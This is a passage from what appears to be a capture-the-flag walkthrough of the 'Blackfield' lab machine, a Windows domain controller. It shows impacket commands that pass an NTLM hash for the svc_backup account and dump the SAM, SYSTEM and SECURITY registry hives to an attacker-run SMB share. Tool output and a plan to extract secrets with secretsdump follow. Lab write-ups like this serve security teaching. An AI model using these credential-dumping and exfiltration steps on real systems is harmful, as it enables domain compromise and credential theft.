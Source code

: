 By reading the `notes.txt` file, we understand the root.txt flag is encrypted (probably with EFS),
which is blocking our access with `robocopy`.

`type notes.txt`:
```
Mates,

After the domain compromise and computer forensic last week, auditors advised us to:
- change every passwords -- Done.
- change krbtgt password twice -- Done.
- disable auditor's account (audit2020) -- KO.
- use nominative domain admin accounts instead of this one -- KO.

We will probably have to backup & restore things later.
- Mike.

PS: Because the audit report is sensitive, I have encrypted it on the desktop (root.txt) ←
```

![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

`mkdir ./smbshare`

`impacket-smbserver -smb2support 'smbshare' ./smbshare`:
```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
```

`impacket-reg 'blackfield.local/svc_backup@10.10.10.192' -hashes ':9658d1d1dcd9250115e2205d9f48400d' backup -o //10.10.14.22/smbshare`:
```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[!] Cannot check RemoteRegistry status. Triggering start trough named pipe...
[*] Saved HKLM\SAM to //10.10.14.22/smbshare\SAM.save ←
[*] Saved HKLM\SYSTEM to //10.10.14.22/smbshare\SYSTEM.save ←
[*] Saved HKLM\SECURITY to //10.10.14.22/smbshare\SECURITY.save ←
```

`ls -l ./smbshare`:
```
total 17332
-rwxrwxr-x 1 kali kali    45056 Nov 11 12:53 SAM.save ←
-rwxrwxr-x 1 kali kali    32768 Nov 11 12:57 SECURITY.save ←
-rwxrwxr-x 1 kali kali 17670144 Nov 11 12:57 SYSTEM.save ←
```

From these files we can extract LSA secrets, the machine account and local user hashes using
`secretsdump`.
